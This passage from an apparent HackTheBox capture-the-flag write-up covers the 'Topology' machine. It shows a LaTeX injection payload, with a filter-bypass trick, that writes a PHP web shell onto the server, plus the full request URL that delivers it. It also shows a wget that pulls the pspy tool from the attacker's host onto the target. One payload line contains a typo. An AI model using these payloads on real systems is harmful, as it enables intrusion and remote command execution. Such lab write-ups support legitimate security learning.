 ![](/assets/img/hackthebox/machines writeups/Topology/filter_bypass.png)

### **RCE**

Creating a simple Webshell 

```plaintext
\newwrite\outfile
\openout\outfile=Webshell.tex
\wrie^^74\outfile{<?php system($_REQUEST['cmd']); ?>}
\closeout\outfile
```

So the final URL will be like the following 

{% raw %}
```plaintext
latex.topology.htb/equation.php?eqn=\newwrite\outfile\openout\outfile=Webshell.php\wri^^74e\outfile{%3C?php%20system($_REQUEST[%27cmd%27]);%20?%3E}\closeout\outfile
```
{% endraw %}

![](/assets/img/hackthebox/machines writeups/Topology/webshell1.png)

The shell uploaded to the **tempfiles** dir so we can access it and gain RCE now 

![](/assets/img/hackthebox/machines writeups/Topology/webshell2.png)

## **Shell as Root**

After some enumeration found that the `/opt` dir has interesting folder, but vdaisley user can't view what is inside it but he can write to it 

```bash
ls -ld gnuplot/
drwx-wx-wx 2 root root 4096 Sep  7 18:00 gnuplot/
```
{: .nolineno }

The **gnuplot** is a command-line and GUI program that can generate two- and three-dimentional plots of functions, data, and data fits.


### **Pspy**

Using `Pspy` after downlaod it from my machine to the target box to enum real time running processes


```bash
wget 10.10.16.84/pspy64
--2023-09-25 18:03:02--  http://10.10.16.84/pspy64
Connecting to 10.10.16.84:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                               100%[==================================>]   2.96M  3.02MB/s    in 0.8s    

2023-09-25 18:04:22 (3.67 MB/s) - ‘pspy64’ saved [3104768/3104768]
```
